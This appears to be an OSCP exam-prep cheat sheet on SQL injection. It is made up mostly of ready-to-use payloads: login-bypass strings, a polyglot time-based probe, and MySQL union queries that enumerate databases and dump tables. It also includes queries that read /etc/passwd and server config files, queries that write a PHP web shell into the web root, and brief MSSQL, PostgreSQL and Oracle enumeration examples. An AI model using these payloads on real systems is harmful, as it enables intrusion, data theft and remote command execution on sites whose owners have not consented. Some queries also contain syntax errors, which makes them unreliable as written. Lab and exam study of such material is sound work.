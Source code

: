# SQLI

#### Refs
https://github.com/HackTricks-wiki/hacktricks/blob/master/src/pentesting-web/sql-injection/mysql-injection/README.md
https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/MySQL%20Injection.md

#### Main
SQL Injection is a very common attack vector in the `OSCP` exam. You will most likely see atleast one box where it is the intended attack path. I would recommend to anyone that is unfamiliar with `SQL` to learn the language on a basic level first, and then understanding `SQLI` is way easier. With that being said the first thing you want to do is stuff the input fields with common `SQLI` cmds:

### Auth Bypass / SQLI Checker

#### God-Tier One-Liner

```txt
// Shoutout hacktricks and https://labs.detectify.com/ethical-hacking/ultimate-sql-injection-payload/ for this one.

SELECT * FROM some_table WHERE double_quotes = "IF(SUBSTR(@@version,1,1)<5,BENCHMARK(2000000,SHA1(0xDE7EC71F1)),SLEEP(1))/*'XOR(IF(SUBSTR(@@version,1,1)<5,BENCHMARK(2000000,SHA1(0xDE7EC71F1)),SLEEP(1)))OR'|"XOR(IF(SUBSTR(@@version,1,1)<5,BENCHMARK(2000000,SHA1(0xDE7EC71F1)),SLEEP(1)))OR"*/"
```

#### List of CMDs you could try

```txt
';#---                   // List pulled from 0xsyr0's github.
admin' or '1'='1
' or '1'='1
" or "1"="1
" or "1"="1"--
" or "1"="1"/*
" or "1"="1"#
" or 1=1
" or 1=1 --
" or 1=1 -
" or 1=1--
" or 1=1/*
" or 1=1#
" or 1=1-
") or "1"="1
") or "1"="1"--
") or "1"="1"/*
") or "1"="1"#
") or ("1"="1
") or ("1"="1"--
") or ("1"="1"/*
") or ("1"="1"#
) or '1`='1-
```

### SQL Injection

After stuffing the input fields you should either obtain access to the system as admin or the first user in the database. If not, you might've received a success message or something like that telling you that the SQL server accepted your input. Before trying please remember that I am using `'` in this situation at the beginning of every `cmd` but this will change depending on which character worked for you in the previous steps. Lastly, it's important to recognize that each different type of `SQL` db will have its own injection techniques. Next, try these common injections:

#### MySQL

```txt
## Keep in mind, depending on if you are using Union Based Or Regular SQL Injection, you need to change the commands from UNION ALL SELECT 1,2,<CMD> to SELECT <CMD>

# Get number of columns
' ORDER BY 3--

# Fingerprinting
' UNION SELECT 1, VERSION(), 3--
' UNION SELECT 1,2, DATABASE()--
' UNION SELECT 1,2, USER()--

# Get all DBs on server
' UniOn Select 1,2,3,4,...,gRoUp_cOncaT(0x7c,schema_name,0x7c)+fRoM+information_schema.schemata

# Get table name
' UNION ALL SELECT 1,2, GROUP_CONCAT(table_name) FROM information.schema.tables WHERE table.schema="<DATABASE>"--

# Get column name
' UNION ALL SELECT 1,2, GROUP_CONCAT(column_name) FROM information.schema.columns WHERE table.schema="<DATABASE>" AND table.name="<TABLE>"--

# Data dump
' UNION ALL SELECT 1,2,GROUP_CONCAT(CONCAT_WS(':', col1, col2, col3) SEPARATOR ' | ') FROM <TABLE>--

# File read
' SELECT LOAD_FILE('/etc/passwd')--

# Grab web config info
' SELECT LOAD_FILE('/etc/httpd/conf/httpd.conf')--

# AND

' SHOW VARIABLES LIKE 'secure_file_priv'--

# Create webshell
' SELECT "<?php system($_GET['cmd']);?>" INTO OUTFILE "/var/www/html/<FILE>.php"--

# OR

' UNION SELECT "<?php system($_GET['cmd']);?>", null, null, null, null INTO OUTFILE "/var/www/html/<FILE>.php"--
```
A couple extra things to keep in mind. `--` comments out the rest of the line. `0x7c` is just ASCII for a pipe. `+` is just url encoding for spaces.

### Other SQL Distros

Most of the SQLIs you will come across as a beginner will be MySQL. But, in some cases, it will be other distributions. For the most part, the syntax is the same depending on the distro. I won't go into every cmd on every distro as the general flow of the injection is extremely similar, enumerate DBs, Tables, Columns, and then Dump data, but I will just give an example to extrapolate from.


#### MSSQL

```txt
# Fingerprinting
' UNION ALL SELECT 1,@@VERSION,3--
' UNION ALL SELECT 1,SYSTEM_USER,3--
' UNION ALL SELECT 1,DB_NAME(),3--

# Get DBs
' SELECT name FROM master..sysdatabases

# Get tables
' SELECT name FROM <db>..sysobjects WHERE xtype = 'U'

# Get columns
' SELECT name FROM syscolumns WHERE id = (SELECT id FROM sysobjects WHERE name = '<table>')

# Dump data
' SELECT  <column1>, <column2> from <table>
```

#### PostgreSQL

```txt
' UNION SELECT VERSION(), NULL-- 
```

#### Oracle SQL

```txt
' UNION ALL SELECT banner, NULL FROM v$version-- 
```

